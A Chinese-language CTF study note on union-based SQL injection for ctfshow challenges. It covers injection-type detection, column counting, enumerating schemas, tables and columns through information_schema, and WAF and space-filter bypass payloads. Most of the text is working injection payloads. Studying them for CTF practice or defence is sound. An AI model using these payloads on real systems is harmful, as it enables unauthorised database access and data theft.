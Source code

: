 # sql注入学习1

<br>


### 第一步：判断注入类型

<br>

* 数字型: 使用 1 and 1=2和1 and 1=1来判断(如果没报错，那就不是数字型注入)
* 字符型： 试试可能的闭合符   '    "    ')    ")

<br>

### 第二步: 联合查询前写入语句

<br>

* 可能的闭合符   '  "  ')  ")
* 不需要的语句可以用注释符号 --+  #  %23 --%0c注释掉
* 使用group by 或者Order by 确定数据列数量:id=-2'group by 4--+
* 查找回显位:使你提交的结果能够在页面上给你体现出来 使用语句?id=-2'union select 1,2,3--+(回显的内容的数字就可以知道是哪个位置了)

<br>

### 第三步: 查询库 表 列

* 查找当前库名:?id=-2'union select 1,2,database()--+ (三号位就是苦库的名）
* 查找当前库下所有的表名:id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+(这段话用于在总表information_schema中查找database()的库所对应的table_name，也就是显示这个库中所有的表名。而group_concat则可以把这些表拼接起来) 
* 查找所有表（可能会有一堆乱七八糟的东西）：?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables--+
* 查看名为flag的表所在的库名：?id=-1' union select 1,2,table_schema from information_schema.columns where table_name="flag"--+
* 查找当前库列名:id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() --+(原理几乎同上)（另外写法：?id=-2 union select 1,group_concat(column_name),3 from information_schema.columns ctfshow --+
）
* 查找名为ctfshow的库下的flag表的列：?id=-1' union select 1,id,flag from ctfshow.flag--+
### 第四步：查询数据库
* -2'union select * from ctfshow_web.ctfshow_user where username = 'flag' --+ （在名为ctfshow_web的库里找到名为ctfshow_user的表，并且从中寻找列名username的值为flag的数据）

<br>

## 特别的绕过方式
* replace(username,'f','g'),使用改名使得flag绕过preg_match(只能对返回值过滤进行绕过)
* 空格绕过： %0a %0d %0c /**/ + `
* 换行绕过空格： %0b（用于空格绕过都不成功的情况）

<br>

### 一些更简洁的可以参考的playload
* 1'%0aunion%0asElect%0a1,2,%0agroup_concat(password)%0afrom%0actfshow_user%23
* -1'%0cor%0cusername='flag


<br>

### waf绕过
* 大小写
* 模糊搜索：在where处这样写 where pass like'%c%'(意思是在pass列中模糊搜索c开头的数据，其中的%可用%25替代)



<br>


### 基于原题下手的绕过
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
* 这段代码我们可以利用拼接来进行绕过
* 管道符-1'||username='flag
* 管道符-1'||(username)like'%fla%

### 布尔盲注：看脚本（用到where和select）


<br>

### regexp盲注：看脚本（where和select被过滤了可以用group by pass having pass regexp）

<br>

ctfshow-web184

<br>
